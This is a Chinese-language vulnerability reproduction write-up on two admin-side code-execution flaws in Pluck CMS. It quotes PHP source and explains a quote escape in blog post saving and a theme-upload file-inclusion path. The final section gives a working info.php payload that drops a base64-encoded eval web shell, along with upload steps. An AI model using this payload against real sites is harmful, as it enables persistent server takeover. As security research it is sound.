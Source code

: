 ```yaml
---
title: Pluck CMS后台另两处任意代码执行
id: zhfly3094
---
```


# Pluck CMS后台另两处任意代码执行

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

#### 第一处：过滤不严导致单引号逃逸

在function.php里面blog_save_post()函数

```
function blog_save_post($title, $category, $content, $current_seoname = null, $force_time = null) {
    //Check if 'posts' directory exists, if not; create it.
    if (!is_dir(BLOG_POSTS_DIR)) {
        mkdir(BLOG_POSTS_DIR);
        chmod(BLOG_POSTS_DIR, 0777);
    }

```
//Create seo-filename
$seoname = seo_url($title);

//Sanitize variables.
$title = sanitize($title, true);
$content = sanitizePageContent($content, false);

if (!empty($current_seoname)) {
    $current_filename = blog_get_post_filename($current_seoname);
    $parts = explode('.', $current_filename);
    $number = $parts[0];

    //Get the post time.
    include BLOG_POSTS_DIR.'/'.$current_filename;

    if ($seoname != $current_seoname) {
        unlink(BLOG_POSTS_DIR.'/'.$current_filename);

        if (is_dir(BLOG_POSTS_DIR.'/'.$current_seoname))
            rename(BLOG_POSTS_DIR.'/'.$current_seoname, BLOG_POSTS_DIR.'/'.$seoname);
    }
}

else {
    $files = read_dir_contents(BLOG_POSTS_DIR, 'files');

    //Find the number.
    if ($files) {
        $number = count($files);
        $number++;
    }
    else
        $number = 1;

    if (empty($force_time))
        $post_time = time();
    else
        $post_time = $force_time;
}

//Save information.
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time;

save_file(BLOG_POSTS_DIR.'/'.$number.'.'.$seoname.'.php', $data);

//Return seoname under which post has been saved (to allow for redirect).
return $seoname; 
``` `}` 
```

其中

```
$data['post_title']    = $title;
$data['post_category'] = $category;
$data['post_content']  = $content;
$data['post_time']     = $post_time; 
```

$title $content 均被过滤，$post_time不可控，$category可控

所以只要把$cont2变成我们的payload即可

![image](../img/fe4801c94da7b443548123c5d1d72a9c.png)

![image](../img/4ec092677a82e216b0cf022ed2fb3d95.png)

#### 第二处：安装模版+文件包含导致任意命令执行

很多CMS都会在安装模版的时候getshell，那么这里笔者也发现了类似的漏洞。

##### 1、直接访问失败

首先准备一个shell.php里面是我们的phpinfo();

然后打包成shell.zip，直接上传主题

![image](../img/619fe43453e4d655b038909caf52789c.png)

![image](../img/33761b09b9ec5228c08b82aa54c9d6e5.png)

发现确实上传并且解压成功

但是由于目录下有.htaccess文件，直接把php设置为不可解析，所以无法直接访问

![image](../img/52050ca1f9ea0d6460b41e39efdca12f.png)

![image](../img/1b706377d6055a0ad119afd558437d06.png)

##### 2、文件包含突破

所以就想到需要找一个位置对其进行包含，来达到执行的目的。

首先看到admin.php中关于theme的部分

![image](../img/5210d47cb5a650a9dbf052125e6f2a35.png)

跟进 data/inc/theme.php，发现调用了get_themes()方法

![image](../img/9f89adc92ab7f37b0372164968964bcc.png)

跟进 functions.all.php，查看get_themes()方法

```
function get_themes() {
    $dirs = read_dir_contents('data/themes', 'dirs');
    if ($dirs) {
        natcasesort($dirs);
        foreach ($dirs as $dir) {
            if (file_exists('data/themes/'.$dir.'/info.php')) {
                include_once ('data/themes/'.$dir.'/info.php');
                $themes[] = array(
                    'title'   => $themename,
                    'dir' => $dir
                );
            }
        }
        return $themes;
    }
    else
        return false;
} 
```

发现会遍历data/themes/下所有主题目录，并且包含他的info.php文件

此时info.php可控，就导致了任意代码执行。

##### 3、利用方法

首先准备一个info.php

```
<?php
file_put_contents('x.php',base64_decode('PD9waHAgQGV2YWwoJF9HRVRbJ21yNiddKTs/Pg=='));
?> 
```

然后打包压缩成shell.zip

上传安装主题，然后点击回到主题页，此时触发文件包含。

![image](../img/30e9e23b020b6bd582aa49de97f4ed41.png)

![image](../img/e3720abf1fe9e2db60effb630e08cfa6.png)

![image](../img/fe9a1ace5f763ddbb324ccbae325638c.png)